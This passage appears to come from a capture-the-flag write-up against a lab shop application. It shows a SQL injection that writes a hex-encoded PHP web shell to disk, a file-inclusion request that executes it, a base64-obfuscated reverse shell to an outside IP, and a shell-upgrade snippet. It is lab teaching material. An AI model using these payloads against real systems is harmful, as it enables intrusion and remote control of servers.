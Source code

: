 Let's try to obtain a shell finally

```
POST /shop/index.php?page=cart HTTP/1.1
Host: 10.10.11.229
Content-Length: 170
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.229
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.229/shop/index.php?page=product&id=2
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=r3hu0209v6difsj74b5lrcujg7
Connection: close

quantity=1&product_id=%0D%0A'+union+select+1,2,3,4,5,6,7,unhex('3C3F7068702073797374656D28245F4745545B22636D64225D293B203F3E')+into+outfile+'/var/lib/mysql/test2.php'--+1
```

 when the statement is succesfull and the file gets created we get a `302 status code` otherwise a `500 internal server error`, if it already exists.

```
GET /shop/index.php?cmd=whoami&page=../../../../../../../var/lib/mysql/test2 HTTP/1.1
Host: 10.10.11.229
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close


```

It works!

shell:

`echo 'c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNzUvMTIzNCAwPiYxICAK' | base64 -d | bash`

the sqli injection is executed under user `mysql`, that's the reason why we can't write in `/var/www/html` while lfi is executed as user `rektsu`.

`whoami -> rektsu`

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo
fg
```
